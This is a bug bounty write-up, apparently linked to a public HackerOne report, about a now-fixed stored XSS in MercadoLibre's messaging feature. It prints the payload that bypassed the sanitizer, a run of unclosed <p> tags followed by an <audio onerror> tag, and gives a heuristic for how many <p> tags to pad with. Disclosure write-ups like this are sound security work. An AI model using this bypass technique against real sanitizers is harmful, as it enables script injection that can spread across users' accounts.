 **Public Report:** [https://hackerone.com/reports/1675516](https://hackerone.com/reports/1675516)

## Bypassing the sanitizer: Wormable XSS in MercadoLibre

**Report summary**

The general messaging functionality of www.mercadolibre.com.ar implemented an HTML sanitizer that allowed the use of a limited set of HTML tags while preventing XSS. While analyzing the functionality, @valent1ne discovered that sending multiple unclosed `<p>` tags (`<p><p><p><p><p><p><p><p>`) and appending an extra tag seemed to confuse the sanitizer parser, resulting in unexpected behavior.
This behavior allowed incluiding an extra arbitrary tag, bypassing the sanitizer. For instance, it enabled the appending of an `<audio>` HTML tag at the end of the following payload, which executed JavaScript code:

```html
<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>
```

Later, the reporter discovered that the number of unclosed `<p>` tags needed to be increased depending on the size of the appended HTML tag. This adjustment allowed the insertion of an <embed> tag that included external arbitrary HTML/JavaScript code.

After sending the payload, the parsed HTML would look like this:

```html
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p></p>
<p>
 <audio/src/onerror=alert(document.domain)>
</p>
```

Since this vulnerability affected the general messaging functionality of www.mercadolibre.com.ar, it could have been exploited as a wormable XSS, capable of spreading across multiple users.


**Video**

<video controls width="640" height="360" src="https://github.com/user-attachments/assets/d9191288-4749-4d2a-86c5-b095f134995a"></video>


**Reward**

A few days after sending the report, a reward was sent =)

<img alt="image" src="https://github.com/user-attachments/assets/487bc56e-a2e7-4fb6-b1ec-57b416bab5a4" />


**Discovery**

At first, while testing with buyer/seller accounts to buy/sell products, I knew that when buying a product it would always start a chat so that buyers and sellers could communicate. When making a claim, I quickly saw a request that piqued my curiosity:

```js
POST /<...>

message=%3Cp%3EClaim%20%23123456789%3C%2Fp%3E // Decoded: <p>Claim #123456789</p>
```

I thought, why does it use HTML? Are `<p>` tags in a sort of whitelist?

```html
—-------------  —--------------
|  allowed   |  | disallowed  |
—-------------   —--------------                  
|  <p>        |  |   <img>     |
|  <h1>       |  |     <...>   |
|  <h2>       |  |             |
—-------------   —--------------
```

Then, I tried to execute JS but it was using a sanitizer. That’s when I knew I needed to bypass it, so I started sending every single HTML tag, and noticed something weird.

I thought, how can I hide the disallowed HTML tag? Can I confuse the parser so it can’t see it?

```html
—-----------------      —-----------------
|        <p>      |     |      <p>        |
—----------------- →    —-----------------  
|        <img>    |     |       <img>     |  
—-----------------      —------------------
                        |      </p>       | 
                        —------------------
—-----------------      —-----------------
|        <p>     |     |      <p>         |
—----------------- →    —------------------  
|        <p>     |     |       </p>       |  
—-----------------     —-------------------
|        <img>   |     |      <p>         | 
—-----------------      —------------------
                        |      <img>      |
                        —------------------
                        |      </p>       |
                        —------------------
```
                       
1. When sending `<p><p><img>`, it didn’t remove the `<img>` tag.
2. When just sending `<img>`, it was removed.

After multiple tests, I couldn’t figure out why the sanitizer was working like that. Now I would try to analyze the code to find the root cause, but at that time I didn’t have much experience with that, so I used abstraction and tested based on behavior, until an idea came up: "Balance is key".

A part of my thought process (might be wrong technically)

```html
<p> <p>  <img> → sucess
[3] [3]   [5]
 —------
   [6]
 
<p> <p> <p>    <img/src=x> → error
[3] [3] [3]       [11]
–-—---------     
     [9]

<p> <p> <p> <p> <p>    <img/src=x> → sucess
[3] [3] [3] [3] [3]       [11]
–-—----------------     
        [12]

<p> <p> <p> <p> <p> <p> <p> <p> <p>   <audio/src/onerror=alert()> → sucess
[3] [3] [3] [3] [3] [3] [3] [3] [3]             [27]
–-—---------------------------------     
                 [27]
```

So, the pattern I recognized was something like:

```js
tags = ["<p>", "<p>"]
while (not success):
  tags += "<p>"
```

**Reflection**

After the bug was fixed, they replaced that sanitizer with DOMPurify, so when I wanted to analyze the root cause I couldn’t find what library was used. My thoughts are: probably there was a custom sanitizer that seemed to have a nested node limit that was something like `message length / 2` for some reason. So, you could use `<p> * (message_length/2)` open `<p>` tags, and after that, you could append an `<audio/src/onerror=alert()>` tag that would execute JS. 

After a while, when reflecting about my journey, I think there are many parallelisms in these patterns, and a singular pattern can appear in every bug class. For example, one pattern in this vuln was particularly interesting: 

"There is an allow-list, and wrapping a disallowed object inside an allowed object, bypasses the mitigations."
> That pattern appears in insecure deserializations! \
> Can we transform those singular patterns into generic patterns?
